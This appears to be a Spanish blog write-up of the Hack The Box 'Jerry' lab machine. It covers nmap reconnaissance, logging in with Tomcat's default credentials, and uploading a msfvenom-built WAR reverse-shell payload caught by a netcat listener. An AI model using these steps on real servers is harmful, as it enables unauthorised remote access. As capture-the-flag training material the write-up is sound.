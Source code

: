 ```yaml
---
layout:   post
title:    "Write Up Jerry."
subtitle: "Starting-Point"
category:   HTB
tags:      [Easy,Windows,Upload,Tomcat,Payload,Java,RCE,Default-Credentials,Write-Up-Machine,Starting-Point,eJPT]
---
```

![list](/assets/img/jerry/Captura de pantalla (140).png){:.lead width="800" height="100" loading="lazy"}

***
<!--more-->

1. this ordered seed list will be replaced by the toc
{:toc}

***

## Reconocimiento

Fase inicial donde recolectamos toda la información posible del objetivo, utilizando 

diferentes técnicas como:

| Caracter.                                   |
|:--------------------------------------------|
|Recopilación de tecnologuias.                |
|Dominios.                                    |
|IPs.                                         |
|Puertos.                                     |
|Servicios.                                   |
|Recopilación de metadatos, etc.              |


***
### nmap

Utizando nmap comprobamos que puertos estan abiertos.


```bash
nmap -p- --open --min-rate 5000 -n -vvv -Pn 10.10.10.95 -oA allports
```
El paso anterior se debe hacer con privileguios (root).
{:.note title="Attention"}


![list](/assets/img/jerry/Kali-2022-09-08-22-00-57.png){:.lead width="800" height="100" loading="lazy"}

***
### Servicios y versiones

Una vez sabemos que puertos estan abiertos con el comandoa anterior debemos saber que 

versiones y servicios que corren en los mismo de ahi podremos determinara posibles 

vulnerabilidades.

Esto lo hacemos con el siguiente comando.


```bash
nmap -p8080 -sV -sC 10.10.10.95 -oN target
```
El paso anterior no es nesesario ser (root).
{:.note title="Attention"}


![list](/assets/img/jerry/Kali-2022-09-08-22-02-30.png){:.lead width="800" height="100" loading="lazy"}


***
## Analisis de vulnerabilidades

Uso de Investigacion web, Google Hacking,Google Dorks.

Recopilación de información gracias a servicios de terceros.

Ispeccionamos la web.

![list](/assets/img/jerry/Kali-2022-09-08-22-06-39.png){:.lead width="800" height="100" loading="lazy"}

Inpeccionamos las tecnologias de la ip ataves de la terminal o via  web esto lo 

hacemos con wapalizzer o whatweb.

![list](/assets/img/jerry/Kali-2022-09-08-22-04-28.png){:.lead width="800" height="100" loading="lazy"}

En google podemos bucar claves por defecto segun que tecnologias averiguemos o 

simplemente podemos hacer user/pass desing o (usuario y contraseñas por defecto) 

podemos usar burpsuite para inteceptar peticiones y averiguar mas datos pero en 

este caso la cxredeciales estan expuestas 

`user=tomcat pass=s3cret`.

![list](/assets/img/jerry/Kali-2022-09-08-22-11-20.png){:.lead width="800" height="100" loading="lazy"}

***


Ingresamos al panel de configuiaracion  e igual ispeccionamos la pagina es algo 

que deberemos hacer habitual en cada maquina que nos dipongamos a explotar, vemos 

la posibilidad de subir archivos .war, por lo que podemos explotar esa ventaja ,

podreos intentar subir cualaquier archivo a modo de prueba pero no nos deja. 

![list](/assets/img/jerry/Kali-2022-09-08-22-13-45.png){:.lead width="800" height="100" loading="lazy"}

***
## Explotacion

Por lo que crearemos un payload o (carga util) con mfsvenom para cosegir una 

reverse shell. 

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.10 LPORT=443 -f war > shell.war
```
El LHOST Y LPORT deberan ser la ip de tu VPN y un puerto que tu quieras. 
{:.note}

La subimos al srvidor y con el listener a la ecucha `nc -lvnp 443` damos clic 

donde dice el nombre de nuestra carga util lo que hara que se conecte a nuestro 

nc otrogandonos la reverse shell.

***
## Escalacion de privilegios

Jerry no tiene escalacion de privilegios ya que ya somos root ,pero podemos 

bucar la flag, este caso se ecuentar en el mismo archivo las dos flags en el 

escritorio.

![list](/assets/img/jerry/Kali-2022-09-08-23-24-48.png){:.lead width="800" height="100" loading="lazy"}

```bash
🎉 Felicitaciones ya has comprometido Jerry de HackTheBox 🎉
```
{:.centered}
***
Back to [Beginner Track](2022-09-12-Beginner-Track.md){:.heading.flip-title}
{:.read-more}